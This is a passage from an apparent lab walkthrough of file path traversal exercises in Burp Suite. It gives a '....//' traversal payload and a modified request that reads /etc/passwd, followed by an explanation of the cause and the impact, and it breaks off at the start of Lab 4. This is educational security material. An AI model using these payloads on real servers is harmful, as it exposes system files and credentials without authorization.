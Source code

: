 **Example Intercepted Request:**
```
GET /image?filename=product1.jpg HTTP/1.1

Host: vulnerable-website.com

User-Agent: Mozilla/5.0
```
**2. Modifying the Request**
 - Identify the filename parameter in the request.
 - Modify its value to perform directory traversal by entering:
```
....//....//....//etc/passwd
```
 - Forward the modified request to the server.

**Modified Request:**
```
GET /image?filename=....//....//....//etc/passwd HTTP/1.1

Host: vulnerable-website.com

User-Agent: Mozilla/5.0
```

**3. Observing the Response**
 - Switch to the "HTTP history" tab in Burp Suite.
 - Review the server response.
 - If successful, the contents of the /etc/passwd file will be displayed in the response body, such as:

![Screenshot from 2025-01-08 13-05-15](https://github.com/user-attachments/assets/9eb73a71-d90a-4191-8ccf-22a0be8376c9)

**Explanation**
 - The vulnerability arises due to insufficient input validation, allowing attackers to manipulate the filename parameter to access files outside the intended directory.

**Impact**
 - Unauthorized access to sensitive system files (e.g., /etc/passwd, configuration files).
 - Potential exposure of credentials, user data, or internal information.

## **Lab 4: File path traversal, traversal sequences stripped with superfluous URL-decode**

**Steps to Exploit Path Traversal**

**1. Intercepting the Request**
 - Open Burp Suite and ensure the proxy is enabled.
 - Navigate to the vulnerable web application and access the product image page.
 - In Burp Suite, go to the "Proxy" > "Intercept" tab.
 - Click on an image to trigger a request and capture it using Burp.

**Example Intercepted Request:**
```
GET /image?filename=product1.jpg HTTP/1.1

Host: vulnerable-website.com

User-Agent: Mozilla/5.0
```
